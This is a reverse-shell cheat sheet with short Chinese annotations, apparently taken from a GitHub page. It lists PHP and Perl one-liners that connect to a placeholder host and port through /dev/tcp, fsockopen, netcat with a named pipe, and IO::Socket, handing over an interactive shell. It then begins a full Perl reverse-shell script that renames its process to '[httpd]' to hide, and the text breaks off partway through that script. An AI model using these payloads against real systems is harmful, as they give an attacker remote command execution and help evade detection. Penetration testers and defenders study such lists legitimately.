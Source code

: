 ## php

```
php -r 'exec("/bin/bash -i >& /dev/tcp/[host]/[port]");'
```

```
php -r '$sock=fsockopen("[host]",[port]);exec("/bin/bash -i <&3 >&3 2>&3");'
```

配合nc使用，其他的也一样:

```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [host] [port] >/tmp/f"); ?>
```

## perl

```perl
perl -e 'use Socket;$i="[host]";$p=[port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

不依赖/bin/sh

```perl
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[host]:[port]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"[host]:[port]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

完整perl反弹shell脚本：

```perl
#!/usr/bin/perl -w
# perl-reverse-shell - A Reverse Shell implementation in PERL
use strict;
use Socket;
use FileHandle;
use POSIX;
my $VERSION = "1.0";

# Where to send the reverse shell.  Change these.
my $ip = '127.0.0.1';
my $port = 1234;

# Options
my $daemon = 1;
my $auth   = 0; # 0 means authentication is disabled and any
        # source IP can access the reverse shell
my $authorised_client_pattern = qr(^127\.0\.0\.1$);

# Declarations
my $global_page = "";
my $fake_process_name = "/usr/sbin/apache";

# Change the process name to be less conspicious
$0 = "[httpd]";

# Authenticate based on source IP address if required
if (defined($ENV{'REMOTE_ADDR'})) {
    cgiprint("Browser IP address appears to be: $ENV{'REMOTE_ADDR'}");

    if ($auth) {
```